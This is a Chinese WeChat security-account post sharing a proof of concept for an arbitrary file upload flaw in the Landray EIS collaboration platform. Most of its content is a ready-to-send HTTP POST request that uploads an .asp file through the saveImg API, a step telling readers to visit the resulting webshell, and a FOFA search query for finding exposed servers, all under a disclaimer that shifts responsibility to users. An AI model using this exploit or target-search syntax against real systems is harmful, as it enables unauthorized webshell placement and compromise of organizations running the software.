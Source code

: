 #  【新】蓝凌EIS智慧协同平台任意文件上传

小白菜安全  [ 小白菜安全 ](javascript:void\(0\);)

**小白菜安全** ![]()

微信号 xiaobaicaianquan

功能介绍 推送相关安全信息，nday，0day分享。

____

___发表于_

收录于合集 #网络安全 44个

  

**免责声明**

该公众号主要是分享互联网上公开的一些漏洞poc和工具，利用本公众号所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，本公众号及作者不为此承担任何责任，一旦造成后果请自行承担！如果本公众号分享导致的侵权行为请告知，我们会立即删除并道歉。

![]()

 **漏洞影响范围**

![]()

#  **  漏洞复现**

漏洞poc

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    POST /eis/service/api.aspx?action=saveImg HTTP/1.1Host: User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/109.0Accept-Encoding: gzip, deflateAccept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8Connection: closeAccept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2Upgrade-Insecure-Requests: 1Content-Type: multipart/form-data; boundary=----testContent-Length: 146  
    ------testContent-Disposition: form-data; name="file"filename="test.asp"Content-Type: text/html  
    <% response.write("test")%>------test--  
    

  1. 出现如下数据代表漏洞存在

![]()

# 2.访问webshell地址

![]()

#  **  搜索语法**

 ** **fofa：icon_hash="953405444"****

  

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

